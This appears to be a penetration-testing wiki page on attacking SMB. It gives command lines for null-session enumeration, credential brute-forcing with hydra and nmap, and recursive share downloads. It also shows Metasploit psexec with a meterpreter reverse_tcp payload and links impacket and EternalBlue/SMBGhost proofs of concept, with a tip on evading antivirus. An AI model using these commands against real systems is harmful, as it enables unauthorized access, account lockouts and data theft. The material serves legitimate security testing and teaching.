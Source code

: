 # 🛠️ SMB

## Theory

SMB \(Server Message Block\) is a protocol running on port 445/tcp. It is used to share access to files, printers and serial ports on a network

In 1996 Microsoft releases a customized SMB they call CIFS \(Common Internet File System\). CIFS can sometimes be referred to as SMB1 \(or SMBv1, SMB 1.0\). In 2006, Microsoft introduced SMB2 \(also referred to as SMB 2.0\), a new version of the CIFS protocol. In 2012, Microsoft released SMB3 \(a.k.a. SMB 3.0\). As of 2020, most systems use SMB 2.0 or above.

In short, SMB is the protocol, CIFS is an old dialect of SMB, and Samba is the Linux/UNIX-like implementation of the SMB protocol \(see [this](http://thewindowsupdate.com/2020/02/21/smb-and-null-sessions-why-your-pen-test-is-probably-wrong/)\).

## Practice

### Null session

The null session, if not disabled, allows for anonymous/guest access to a network resource when using no credentials

{% tabs %}
{% tab title="UNIX-like" %}
Tools like [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) \(C\) and [smbmap](https://github.com/ShawnDEvans/smbmap) \(Python\) can be used to access SMB shares with null sessions. Null credentials do not have to be explicitly set in this case.

```bash
# List shares
smbclient -L //$IP

# List shares (implicit null creds)
smbclient -N -L //$IP

# List shares (explicit null creds)
smbclient -U ''%'' -L //$IP

# Open an interactive session to operate on a specific share
smbclient //$IP/$SHARE_NAME
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\) can be used to test for null session on multiple hosts.

```bash
crackmapexec smb $TARGETS -u '' -p '' --shares
```
{% endtab %}

{% tab title="Windows" %}
The `net` cmdlet can be used to natively interact with SMB shares and explicitly set null credentials.

{% hint style="warning" %}
If null credentials are not explicitly set, Windows will natively use implicit credentials \(e.g. Kerberos tickets in cache, logged on user creds or computer account\)
{% endhint %}

```bash
net use \\$IP\$SHARE_NAME '' /user:''
```
{% endtab %}
{% endtabs %}

### Bruteforce

Tools like [hydra](https://github.com/vanhauser-thc/thc-hydra), [metasploit](https://github.com/rapid7/metasploit-framework) or [nmap](https://github.com/nmap/nmap) can be used to operate authentication bruteforce attacks.

{% hint style="danger" %}
In addition to not being stealthy at all, depending on the password policy rules in place, bruteforcing authentication could lead to accounts getting locked out when reaching maximum allowed tries.
{% endhint %}

```bash
# hydra
hydra -L usernames.txt -P passwords.txt $IP -V -f smb

# Metasploit module to use
msf5 > use auxiliary/scanner/smb/smb_login

# nmap
nmap --script smb-brute -p 445 $IP
```

Valid credentials can then be used to list accessible shares and enumerate the contents of the shares the account has access to.

### Data exfiltration

Tools like [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) and [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) can be used to recursively download a SMB share's content.

```bash
# In an smbclient interactive session
recurse ON
prompt OFF
mget *

# With crackmapexec
crackmapexec smb $TARGETS -u $USERNAME -p $PASSWORD -M spider_plus -o READ_ONLY=False
```

### Authenticated RCE

{% tabs %}

PSExec exploit module runs on the same principle as the PSExec Windows utility. The exploit embeds a payload into an executable, upload it into the Admin$ share. It then calls the Service Control Manager to approximately start a new rundll32.exe process that will execute our malicious executable.

```text
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > show options
Module options:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.57.131   yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPass                   no        The password for the specified username
   SMBUser  Administrator    yes       The username to authenticate as
```

{% hint style="warning" %}
Privileged user credentials required.
{% endhint %}

{% hint style="warning" %}
File uploading, creating, starting, stopping, deletion of services makes it really noisy.
{% endhint %}



**Smbexec** works like **Psexec**, but instead of trying to execute an uploaded executable inside the share, it will try to use directly the binaries _cmd.exe/powershell.exe_. The exploit create an arbitrary service with the _Service File Name_ attribute set to a command string to execute. It echoes the command to be executed to a .bat file, execute it and delete it.

The exploit then get the output of the command via Smb and displays the content. For every command, a new service is created.

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py" caption="Exploit" %}

{% hint style="info" %}
**%COMSPEC%** is the environment variable that generaly points to the command line interpreter. \(_cmd.exe, powershell.exe_...\)
{% endhint %}

{% hint style="info" %}
The purpose of using **/Q** option of cmd is to stop displaying output. \(je crois que ça veut dire /quiet à vérifier\)
{% endhint %}

{% hint style="warning" %}
Prioritize using **Smbexec** when you detect a strong AV, _cmd.exe_ is a trusted component of the operating system.
{% endhint %}

{% hint style="warning" %}
Privileged user credentials required.
{% endhint %}



Windows Management Instrumentation is a subsystem of PowerShell that gives high privileged access to system monitoring tools.

Wmiexec has a similar approach to smbexec but it is executing commands through WMI.

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py" caption="Exploit" %}



DCOM is a way for a computer to run a program over the network on a different computer as if the program was running locally.

Dcomexec has a similar approach to psexec but it is executing commands through DCOM.

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/dcomexec.py" caption="Exploit" %}



Crackmapexec is a swiss army that has featured a lot of the command execution methods mentionned precedently.

One of its feature is to automate the process of executing code via SMB by switching between methods when one fails.

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" caption="" %}

### Unauthenticated RCE

{% tabs %}



Eternalblue is a flaw that allows remote attackers to execute arbitrary code on a target system by sending specially crafted messages to the **SMBv1** server. Other related exploits were labelled as`Eternalchampion`, `Eternalromance` and `Eternalsynergy.`

{% embed url="https://github.com/worawit/MS17-010" caption="POC" %}



Smbghost is a bug occuring in the decompression mechanism of client message to a **SMBv3.11** server. This bug leads remotely and without any authentication to a **BSOD or an RCE** on the target.

{% embed url="https://blog.zecops.com/vulnerabilities/exploiting-smbghost-cve-2020-0796-for-a-local-privilege-escalation-writeup-and-poc/" caption="Walktrough" %}

{% embed url="https://github.com/ZecOps/CVE-2020-0796-RCE-POC" caption="POC" %}

Smbleed allows to **leak kernel** memory remotely, it is also occuring in the same decompression mechanism as smbghost.

In order for the target to be vulnerable, it must have the **SMBv3.1.1** implementation running and the compression function enabled, which is on by **default**.

{% embed url="https://blog.zecops.com/vulnerabilities/smbleedingghost-writeup-chaining-smbleed-cve-2020-1206-with-smbghost/" caption="Walktrough" %}

{% embed url="https://github.com/ZecOps/CVE-2020-1206-POC" caption="POC" %}

## References

{% embed url="https://pandorafms.com/blog/what-is-wmi/" caption="" %}

{% embed url="https://book.hacktricks.xyz/pentesting/pentesting-smb" caption="" %}

{% embed url="https://www.varonis.com/blog/dcom-distributed-component-object-model/" caption="" %}

{% embed url="https://www.optiv.com/blog/owning-computers-without-shell-access" caption="" %}


